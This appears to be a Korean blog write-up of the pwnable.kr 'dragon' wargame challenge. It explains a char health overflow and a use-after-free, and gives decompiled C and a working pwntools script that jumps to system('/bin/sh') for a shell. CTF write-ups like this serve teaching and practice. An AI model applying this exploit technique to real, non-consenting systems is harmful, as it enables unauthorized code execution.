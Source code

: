 ```yaml
---
layout: post
title: "pwnable.kr - dragon"
date: 2018-11-09
excerpt: "Char overflow + UAF"
tags: [write-up]
comments: true
---
```

쉬운 문제이니 바로 Exploit을 설명하겠습니다.

### Exploit

- dragon의 체력은 character 형이기 때문에 127을 넘어가면 overflow로 인해 음수 값을 갖게 됩니다.

- Mama Dragon의 체력이 80이기 때문에, Priest를 선택하고 4번을 버티면 체력이 127을 넘어가 이길 수 있습니다.

- dragon의 체력이 0 이하로 내려가면 dragon은 free 됩니다.

```c
.
.
while ( *(dragon + 8) > 0 );                  // dragon health
free(dragon);

return 1;
```

- 이후 malloc(0x10)을 한 위치에 scanf로 입력을 받게 되는데, bin list에는 dragon이 들어가있기 때문에 dragon 위치에 malloc됩니다.
```c
if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    (*dragon)(dragon);
  }
```
- (*dragon)(dragon)에 의해 UAF가 발생해 name으로 입력한 값을 실행하게 되는데, 여기서 SecretLevel의 주소를 입력해 쉘 취득이 가능합니다.

- SecretLevel의 소스는 다음과 같습니다.
```c
unsigned int SecretLevel()
{
  char s1; // [esp+12h] [ebp-16h]
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("Welcome to Secret Level!\nInput Password : ");
  __isoc99_scanf("%10s", &s1);
  if ( strcmp(&s1, "Nice_Try_But_The_Dragons_Won't_Let_You!") )
  {
    puts("Wrong!\n");
    exit(-1);
  }
  system("/bin/sh");
  return __readgsdword(0x14u) ^ v2;
}
```
10 바이트 입력을 받는데 "Nice_Try_But_The_Dragons_Won't_Let_You!"을 모두 입력할 수 없으므로

system("/bin/sh") 하는 위치로 바로 뛰어주면 됩니다.

exp.py
```python
from pwn import *

#p = process('./dragon')
p = remote('pwnable.kr', 9004)

p.sendline('1')
p.sendline('2')
p.sendline('2')

p.sendline('1')

for i in range(4):
	p.sendline('3')
	p.sendline('3')
	p.sendline('2')

p.sendline(p32(0x08048dbf))

p.interactive()
```

![shell](https://t1.daumcdn.net/cfile/tistory/99705B3A5BE4D25134)
